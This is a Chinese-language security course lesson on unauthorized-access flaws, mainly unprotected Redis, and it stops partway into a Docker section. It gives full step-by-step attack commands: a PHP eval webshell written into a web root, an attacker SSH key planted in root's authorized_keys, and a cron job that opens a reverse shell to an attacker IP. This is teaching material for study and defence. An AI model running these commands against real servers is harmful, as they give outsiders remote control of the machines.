# 网络安全课程 P47：第11天 - Redis未授权访问漏洞详解 🛡️

在本节课中，我们将学习一种在实战和各类组件中都极为常见的漏洞类型——未授权访问。我们将以Redis数据库为例，深入理解其原理、危害和利用方法，并掌握如何通过此漏洞获取目标系统的控制权。

## 概述：什么是未授权访问？

未授权访问漏洞是指，一个本应需要身份验证（如用户名和密码）才能访问的资源（如网站后台、服务接口），由于配置或开发缺陷，导致攻击者无需任何凭据即可直接访问或绕过验证机制。

造成此漏洞的原因主要有两种：
1.  **开发缺陷**：例如，认证逻辑仅在前端JavaScript中实现，攻击者可通过修改请求等方式绕过。
2.  **运维配置不当**：服务在部署时未正确配置访问控制。本节课将重点讲解的**Redis未授权访问**就属于此类，它非常普遍且常与其他漏洞组合利用，最终获得目标系统的命令执行权限。

## 常见的未授权访问目标



未授权访问可能出现在多种类型的软件中，主要可分为以下几类：
*   **服务**：如MySQL、Apache、远程桌面（RDP）。
*   **开发框架/组件**：如ThinkPHP、Java的Spring、Struts2。
*   **内容管理系统（CMS）**：如WordPress，这类系统允许用户无需编码即可搭建网站。

由于此类目标众多，本节课我们将选取两个最典型、最常遇到的例子进行讲解：**Redis**和**Docker**。

## 第一部分：Redis未授权访问 🗄️

上一节我们介绍了未授权访问的基本概念和常见目标。本节中，我们来看看第一个典型案例——Redis。

### Redis简介



Redis是一款开源的、基于内存的键值对（Key-Value）数据库。它与MySQL、Oracle等传统关系型数据库不同，数据主要存储在内存中，因此读写速度极快，常用于缓存、计数器、实时排行榜等场景。



**关键信息**：
*   默认监听端口：**6379**
*   默认配置：**无密码认证**
*   数据模型：键值对，例如 `set name “zhangsan”`（设置键`name`的值为`zhangsan`），`get name`（获取键`name`的值）。

### 漏洞成因

Redis在设计上默认只监听本地地址（127.0.0.1:6379），且没有密码。这在本机环境下是安全的。然而，当业务需要（如搭建Redis集群）时，开发或运维人员可能会搜索教程，将其配置为允许远程连接（如绑定到0.0.0.0:6379）。如果此时**仍未设置密码**，那么任何能访问到该服务器IP和6379端口的用户，都可以直接连接并操作Redis数据库，这就造成了未授权访问。

### 环境探测与连接

在攻击中，我们首先需要发现目标是否开启了Redis服务。



**探测命令**：
使用`nmap`扫描目标IP的6379端口。
```bash
nmap -sT -T4 -p 6379 10.1.1.200
```
如果端口状态显示为`open`，则表明Redis服务正在运行。

**连接Redis**：
确认服务存在后，使用Redis客户端`redis-cli`进行连接。
```bash
redis-cli -h 10.1.1.200 -p 6379
```
连接成功后，可以执行`info`命令来验证是否拥有权限。如果能够返回Redis的版本、系统信息等详细数据，则确认存在未授权访问漏洞。



### 漏洞利用：写入WebShell

获得Redis控制权后，我们可以利用其数据持久化功能，将恶意代码写入目标服务器的网站目录，从而获得一个WebShell（网站后门）。

**利用条件**：
1.  目标服务器同时运行着Web服务（如Apache、Nginx）。
2.  我们知道Web网站的根目录路径（可通过信息收集或猜测获得，常见如`/var/www/html`）。



**利用步骤**：
以下是核心的操作命令序列：
```bash
# 1. 配置Redis持久化文件保存路径为Web根目录
config set dir /var/www/html







# 2. 配置持久化文件名（即我们要生成的WebShell文件名）
config set dbfilename shell.php





# 3. 写入一个键值对，值为PHP一句话木马
set x “<?php @eval($_POST[‘cmd’]);?>”

# 4. 执行保存，将内存中的数据（包括我们的木马）写入指定文件
save
```
**原理说明**：Redis的`save`命令会将当前数据库保存到硬盘。我们通过`config set`指令“欺骗”Redis，让它把数据保存到网站目录下的一个PHP文件中。我们写入的“值”是一段特殊的PHP代码（一句话木马），它允许攻击者通过HTTP POST请求传递并执行任意系统命令。



**连接WebShell**：
文件写入成功后，访问 `http://10.1.1.200/shell.php`。使用中国菜刀、蚁剑（AntSword）等WebShell管理工具，填写该URL和连接密码（即上面代码中的`cmd`），即可成功连接。在工具中，我们可以执行命令、浏览文件、上传下载数据，完全控制该网站服务器。

### 其他利用方式

如果目标服务器没有Web服务，我们还可以尝试其他方法。

**写入SSH公钥**：
如果目标服务器开启了SSH服务（端口22），并且Redis以root等高权限用户运行，我们可以将攻击者的SSH公钥写入目标服务器的`~/.ssh/authorized_keys`文件，从而实现无需密码的SSH登录。
```bash
# 在攻击机生成密钥对（如果已有可跳过）
ssh-keygen -t rsa

# 将公钥写入一个文本文件，并作为值存入Redis
(echo -e “\n\n”; cat ~/.ssh/id_rsa.pub; echo -e “\n\n”) > pub.txt
cat pub.txt | redis-cli -h 10.1.1.200 -p 6379 -x set ssh_key

# 配置Redis保存路径为用户SSH目录，并保存
redis-cli -h 10.1.1.200 -p 6379 config set dir /root/.ssh/
redis-cli -h 10.1.1.200 -p 6379 config set dbfilename authorized_keys
redis-cli -h 10.1.1.200 -p 6379 save
```
之后，即可使用 `ssh -i id_rsa root@10.1.1.200` 直接登录。

**写入定时任务（Cron）反弹Shell**：
通过向系统的定时任务文件（如`/var/spool/cron/root`）写入任务，让系统在特定时间执行我们的命令，例如反弹一个Shell回连到攻击机。
```bash
# 配置Redis保存路径为定时任务目录
config set dir /var/spool/cron/

# 设置文件名（通常是用户名，如root）
config set dbfilename root

# 写入反弹Shell的命令（每分钟执行一次，连接到攻击机10.1.1.100的4433端口）
set y “\n* * * * * /bin/bash -i >& /dev/tcp/10.1.1.100/4433 0>&1\n”

# 保存
save
```
同时，在攻击机上使用`nc`监听4433端口：`nc -lvp 4433`。等待一分钟后，即可在攻击机获得目标服务器的Shell会话。

## 第二部分：Docker未授权访问 🐳

讲完了Redis的利用，我们来看另一个常见的未授权访问案例——Docker。

### Docker简介

Docker是一种容器化平台，可以将应用及其依赖打包成一个标准化的单元（容器），用于快速部署和运行。Docker守护进程（Docker Daemon）默认监听在`/var/run/docker.sock`这个Unix套接字文件上，但有时也会配置为监听TCP端口（如2375）以提供远程API。





### 漏洞成因



当Docker守护进程被配置为监听在`0.0.0.0:2375`，且**未设置任何访问控制（如TLS证书认证）**时，就产生了未授权访问漏洞。攻击者可以直接调用Docker Remote API来管理容器。



